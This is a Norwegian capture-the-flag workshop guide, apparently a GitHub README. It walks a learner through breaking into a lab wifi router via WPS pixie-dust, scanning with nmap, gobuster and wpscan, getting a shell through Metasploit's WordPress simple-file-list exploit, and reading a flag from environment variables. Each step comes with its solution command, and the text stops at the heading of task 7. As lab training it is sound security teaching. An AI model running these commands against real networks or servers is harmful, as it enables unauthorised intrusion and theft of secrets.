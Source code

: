 # Hackerworkshop Bekk Fagdag 21.10.2022

I denne workshopen skal du bryte deg inn på en ruter, kartlegge nettverket, finne sårbarheter i en webserver og skaffe deg tilgang til serveren og dens database.

## Engasjementsregler

- Det er bare tillatt å angripe wifi-nettverket kalt HackMe og enheter tilknyttet ruterens lokale nettverk på `192.168.38.0/24`.

- Tjenestenektangrep mot ruteren eller andre enheter på nettverket er ikke tillatt da det vil ødelegge for andre.

- Siden alle er koblet på samme nettverk er det lurt å unngå permanente endringer av filer, rettigheter og lignende dersom du skaffer deg tilgang til en server.

## Oppgaver

### 1. Bryt deg inn på wifi-nettverket
Routeren vi har satt opp bruker en sårbar implementasjon av WPS-protokollen. Ved hjelp av [OneShot](https://github.com/drygdryg/OneShot) kan vi utnytte det! 

**Bruk Oneshot og pixiedust til å finne passordet til HackMe-nettverket. Repoet er allerede klonet og klart på maskinen!**

<details>
<summary>Hint 1</summary>
Naviger til OneShot-repoet i en terminal og kjør oneshot.py med riktig options.
</details>

<details>
<summary>Hint 2</summary>

Dere må spesifisere riktig trådløst grensesnitt ved å bruke `-i` flagget. Trådløst grensesnitt kan du finne med kommandoen `iwconfig`.
  
</details>

<details>
<summary>Hint 3</summary>
  
Om det tar lang tid, kan det hende dere har glemt å spesifisere hvilket angrep OneShot skal kjøre, ved å kjøre `--pixie-dust`.
</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under, og velg nettverket HackMe.
  
```
sudo python oneshot.py -i wlan0 --pixie-dust
```

</details>

</br>

### 2. Kartlegging
Nå som dere er koblet til nettverket, skal dere finne ut hvilke enheter og hvilke åpne porter som er tilgjengelige. 
Noter eventuelle interessante funn.

<details><summary>Hint 1</summary>

Her kan dere bruke verktøyet `nmap` til å scanne nettverket. Bruk `man nmap` for å se hvilke options dere kan gi til nmap. Vi har erfart at kjøring av nmap inne i docker gir varierende uttelling. Kjør derfor nmap fra vertsmaskinen. 

</details>

<details><summary>Hint 2</summary>

Enheter som ligger i IP-rangen `192.168.38.100 - 192.168.38.255` er dere selv og andre deltakere i workshopen.

</details>

<details><summary>Løsningsforslag</summary>

Kjør nmap med `-A`flagget for å vise mer informasjon om her host.
  
```sudo nmap -A 192.168.38.0-100```
  
</details>


</br>

### 3. Grav dypere!
Velg dere ut det funnet fra forrige oppgave dere tenker er mest interessant å se videre på. Dere skal nå forsøke å lære litt mer om denne enheten, i jakten på en angrepsvinkel.

**a) Finn ut hvilke teknologier som er i bruk på serveren**

<details><summary>Hint 1</summary>
Også her er nmap et fint verktøy. Hvilke porter er åpne?
</details>

<details><summary>Hint 2</summary>
nma viser at port 1337 er åpen. Hva skjer om dere åpner 192.168.38.72:1337 i nettleseren?

Om dere ønsker, kan dere også bruke wappalyzer-utvidelsen i nettleseren for å undersøke nærmere. 
</details>
 
b) **Se etter skjulte ressurser på serveren ved hjelp av verktøyet `gobuster`. Bruk gjerne en kort ordliste, f. eks. [denne](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) for å unngå å overbelaste serveren.**

<details><summary>Hint 1</summary>
Last ned ordlisten og kjør kommandoen under. Ser dere noen interessante funn?

```gobuster dir -u http://192.168.38.72:1337 -w common.txt```
</details>

<details><summary>Løsningsforslag</summary>

a) Her finnes det flere måter man kan konkludere med at webserveren kjører en wordpress-instans. Man kan feks åpne http://192.168.38.72:1337 i en browser, og se at "Powered by wordpress" pryder footeren på siden. 
  
b) Ved hjelp av gobuster kan vi også finne frem til siden `/secret` som redirecter til en fil. Om dere fant denne, fikk dere også et flagg. Yay!

</details> 
 
</br>

### 4. Kjente sårbarheter?

Nå som dere har funnet ut hvilke teknologier som brukes, er neste steg å finne ut nøyaktig hvilke versjoner som kjører, og om de har noen kjente sårbarheter. 
</br></br>
**Se om dere finner noe sårbart som kjører på serveren!**

<details><summary>Hint 1</summary>

Ettersom vi vet at dette er en wordpress-server, kan vi bruke verktøyet `wpscan`. Dette verktøyet er allerede installert på kali linux, og brukes til å scanne blant annet sårbare versjoner, plugins og themes i tillegg til feilkonfigurasjoner.

</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under. Fra resultatet ser vi at serveren kjører en sårbar versjon av pluginen simple-file-list. 
  
```wpscan --url http://192.168.38.72:1337 ```

</details>
</br>

### 5. Exploit time!
Nå som vi er ferdig med kartlegging av målet, er det på tide å dra frem storskytsen! Vi har funnet et mål, kartlagt teknologien og funnet en sårbarhet vi kan bruke som inngang. 
</br> </br>
**Bruk metasploit til å skaffe dere et shell på serveren.**

<details><summary>Hint 1</summary>
  
For å starte metasploit (metasploit framework console) kjører dere kommandoen `msfconsole`. Inne i metasploit-konsollen kan dere bruke kommandoen `search` for å lete etter en konkret exploit. 
</details>

<details><summary>Hint 2</summary>
  
Exploiten dere trenger heter `exploit/multi/http/wp_simple_file_list_rce`. Last den inn ved å bruke `use`-kommandoen. `options`-kommandoen er nyttig for å se hvilke variabler som må settes før exploiten kjøres. 
</details>

<details><summary>Hint 3</summary>

Dere må sette følgende variabler ved hjelp av metasploits `set`-kommando.
  
```
RHOST - Remote host, denne fant dere tidligere
RPORT - Remote port, denne fant dere tidligere
LHOST - Local host. Deres egen IP (ikke localhost)
```
</details>

<details><summary>Løsningsforslag</summary>
</br>
Kjør kommandoene under, så vil du forhåpentligvis få et shell på serveren!
  
```
> msfconsole
> use exploit/multi/http/wp_simple_file_list_rce
> set RHOST 192.168.38.72
> set RPORT 1337
> set LHOST <deres egen ip>
> exploit
```  
</details>

</br>

### 6. Se dere rundt!
Nå som vi har et shell på serveren, kan vi begynne å snoke rundt etter noe interessant (.. i dette tilfellet et flagg!). 
</br></br>
**Ta en runde på serveren, og se om dere finner noe som ligner et flagg.**

<details><summary>Hint 1</summary>
Det kan være fristende å navigere rundt i filsystemet, men det vil være en blindvei i dette tilfellet. 
</details>


<details><summary>Hint 2</summary>
Hvor pleier man å gjemme hemmeligheter?
</details>

<details><summary>Hint 3</summary>
Det kan være lurt å ta en titt på miljøvariabler.
</details>

<details><summary>Løsningsforslag</summary>

Flagget ligger i en miljøvariabel på serveren. Kjør følgende kommando: `printenv`
</details>

</br>

### 7. Kom dere inn i databasen!

